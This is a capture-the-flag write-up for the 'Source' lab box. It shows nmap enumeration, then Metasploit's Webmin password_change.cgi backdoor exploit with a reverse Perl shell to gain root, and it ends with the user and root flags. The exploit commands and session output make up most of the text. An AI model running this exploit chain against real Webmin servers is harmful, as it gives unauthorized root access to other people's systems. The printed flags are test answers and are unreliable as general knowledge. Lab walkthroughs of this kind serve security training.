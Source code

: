 # Source

Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?

This virtual machine is also included in the room AttackerKB as part of a guided experience. Additionally, you can download the OVA of Source for offline usage from https://www.darkstar7471.com/resources.html

# user.txt

## Services enumeration

Nmap discovers 2 ports, 1 of which being the webmin service that we are interested in.

~~~
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Webmin authentication page

Connect to https://10.10.115.224:10000/ (Notice that webmin runs over port 10000 with SSL). You'll get the webmin authentication page.

After trying several authentication attempts involving the `admin` or `root` logins with common passwords, I decided to search for exploits.

## Exploit

Let's search for exploits in Metasploit:

~~~
kali@kali:/data/Source$ msfconsole -q
[*] Starting persistent handler(s)...
msf5 > search webmin

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  auxiliary/admin/webmin/edit_html_fileaccess  2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
   1  auxiliary/admin/webmin/file_disclosure       2006-06-30       normal     No     Webmin File Disclosure
   2  exploit/linux/http/webmin_backdoor           2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
   3  exploit/linux/http/webmin_packageup_rce      2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
   4  exploit/unix/webapp/webmin_show_cgi_exec     2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
   5  exploit/unix/webapp/webmin_upload_exec       2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE


Interact with a module by name or index, for example use 5 or use exploit/unix/webapp/webmin_upload_exec
~~~

There are several exploits that will require valid credentials, that we don't have. Let's use the `webmin_backdoor` exploit, which does not require credentials.

~~~
msf5 > use 2
[*] Using configured payload cmd/unix/reverse_perl
msf5 exploit(linux/http/webmin_backdoor) > show options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)

~~~

Now, let's set up a couple of mandatory variables, and run the exploit.

~~~
msf5 exploit(linux/http/webmin_backdoor) > set rhost 10.10.115.224
rhost => 10.10.115.224
msf5 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(linux/http/webmin_backdoor) > set rport 10000
rport => 10000
msf5 exploit(linux/http/webmin_backdoor) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(linux/http/webmin_backdoor) > run
~~~

The exploit works and we get a shell.

~~~
[*] Started reverse TCP handler on 10.8.50.72:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.8.50.72:4444 -> 10.10.115.224:37464) at 2020-09-05 09:13:10 +0200

which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
~~~

## Root shell

This exploit directly gives us a privileged shell and we don't even need a privesc:

~~~
root@source:/usr/share/webmin/# id
id
uid=0(root) gid=0(root) groups=0(root)
~~~

## User flag

Let's get the user flag:

~~~
root@source:/usr/share/webmin/# ls -l /home
ls -l /home
total 4
drwxr-xr-x 5 dark dark 4096 Jun 26 04:46 dark
root@source:/usr/share/webmin/# cat /home/dark/user.txt
cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
~~~

# root.txt

And the root flag:

~~~
root@source:/usr/share/webmin/# cat /root/root.txt
cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
~~~
